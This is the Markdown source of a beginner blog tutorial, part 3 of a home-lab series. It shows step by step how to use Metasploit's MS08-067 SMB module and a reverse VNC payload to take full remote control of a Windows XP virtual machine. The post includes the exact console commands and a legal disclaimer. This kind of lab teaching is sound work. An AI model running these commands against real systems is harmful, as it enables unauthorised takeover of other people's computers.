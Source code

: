 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnerability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

Now that we have successfully obtained a list of all the vulnerabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnerabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnerabilities & Exploit Database][Rapid7-DB]

Type in the vulnerability code we want to use. In our particular case, it is MS08_067

In the drop-down menu to the right of the search field, choose "Metasploit Modules"

Look under "Module Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

<b>Loading Exploits and Payloads</b>
<br>[Offensive Security - Metasploit Commands][Metasploit-Commands]
<br>[Offensive Security - Using Exploits][Using-Exploits]

Open terminal and type in the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basic software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Setting Up The Attack

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may notice that a few of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to control the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

<b>Hack It!

Now run show options again and you should have something like this.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

Run the following command.

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations. You did it! You can now do whatever you like to the target computer.

![image tooltip](/blog/images/ms08_067/owned.JPG)

<br>[Homepage][homepage]

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[homepage]: https://danielloosec.github.io/blog/
[Rapid7-DB]: https://www.rapid7.com/db
[Using-Exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[Metasploit-Commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
